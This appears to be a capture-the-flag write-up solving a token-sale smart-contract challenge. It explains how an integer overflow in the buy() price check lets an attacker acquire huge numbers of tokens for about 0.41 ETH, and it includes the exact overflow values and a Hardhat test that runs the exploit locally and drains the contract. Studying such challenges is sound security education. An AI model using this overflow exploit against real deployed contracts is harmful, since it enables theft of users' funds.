 The exploit in the token sale contract uses integer overflow to manipulate `msg.value` and `numTokens` in the `buy()` function, allowing the attacker to acquire more tokens for a lower cost.

The vulnerable line in the contract is:

`require(msg.value == numTokens * PRICE_PER_TOKEN);`

In order to bypass this requirement, the attacker calculates the following values:

1. `2^256 / 10^18 + 1 = 115792089237316195423570985008687907853269984665640564039458`
2. `(2^256 / 10^18 + 1) * 10^18 - 2^256 = 415992086870360064 ~= 0.41 ETH`

The first calculation is done to determine the number of tokens (`numTokens`) the attacker will purchase. The number is derived from the maximum possible value of a `uint256` (MAX_UINT) divided by `10^18`, which is the value of 1 ether in wei, and then incremented by 1.

The second calculation determines the overflow value that will be sent as `msg.value`. When the calculated `numTokens` is multiplied by the `PRICE_PER_TOKEN` (1 ether in wei), the result causes an integer overflow, resulting in a smaller value than expected. In this case, the overflow value is approximately 0.41 ETH.

By sending these calculated values to the `buy()` function, the attacker can obtain a large number of tokens (115792089237316195423570985008687907853269984665640564039458) by only spending 0.41 ETH, instead of the expected 1 ETH per token.

```javascript
it("Successfully completes the test", async function () {
  const [signer] = await ethers.getSigners();
  const userAddress = await signer.getAddress();

  const TokenSaleChallenge = await ethers.getContractFactory(
    "TokenSaleChallenge"
  );
  const tokenSaleContract = await TokenSaleChallenge.deploy(userAddress, {
    value: ethers.utils.parseEther("1"),
  });
  await tokenSaleContract.deployed();

  // msg.value == numTokens * PRICE_PER_TOKEN
  // 2^256 / 10^18 + 1 = 115792089237316195423570985008687907853269984665640564039458
  // (2^256 / 10^18 + 1) * 10^18 - 2^256 = 415992086870360064 ~= 0.41 ETH

  // (MAX_UINT / 10^18) + 1 = 115792089237316195423570985008687907853269984665640564039458
  // Overflow: 415992086870360064, a little bit below half an ether
  const purchaseTx = await tokenSaleContract.buy(
    "115792089237316195423570985008687907853269984665640564039458",
    {
      value: "415992086870360064",
    }
  );
  await purchaseTx.wait();

  const sellTransaction = await tokenSaleContract.sell(1);
  await sellTransaction.wait();

  expect(await tokenSaleContract.isComplete()).to.be.true;
});
```

After purchasing these tokens, the attacker can then call the `sell()` function to sell just 1 token, which returns 1 ETH. As a result, the contract's balance drops below 1 ETH completing the challenge.
